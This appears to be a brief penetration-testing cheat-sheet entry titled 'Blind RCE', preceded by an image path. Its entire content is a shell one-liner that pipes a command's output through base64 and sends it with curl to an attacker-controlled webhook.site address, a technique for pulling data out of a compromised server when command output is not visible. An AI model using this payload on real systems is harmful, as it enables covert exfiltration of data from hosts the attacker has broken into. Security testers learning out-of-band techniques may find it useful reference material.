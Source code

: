 # Blind RCE

Sends result as POST request:
```sh
<command> | base64 | curl -d @- https://webhook.site/<your_webhook_id>
```